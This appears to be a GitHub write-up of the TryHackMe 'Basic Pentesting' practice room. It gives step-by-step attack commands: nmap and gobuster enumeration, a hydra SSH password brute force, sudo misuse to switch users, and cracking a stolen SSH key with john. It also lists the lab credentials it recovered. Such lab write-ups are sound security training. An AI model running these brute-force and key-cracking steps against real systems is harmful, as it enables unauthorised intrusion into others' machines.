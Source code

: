 # بسم الله الرحمن الرحيم  
# TryHackMe: Basic Pentesting Writeup

**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  
**Tags:** `#WebAppSecurity` `#PrivilegeEscalation` `#CTF`

## 1. Reconnaissance

### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```

**Findings:**
- **Port 22 (SSH)** - OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Port 80 (HTTP)** - Apache httpd 2.4.18 (Ubuntu)
- **Port 445 (SMB)** - Samba smbd 4.3.11-Ubuntu

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt` (hinted at weak credentials for user J and K)
  - `notes.txt`

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share, but no useful data.

### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
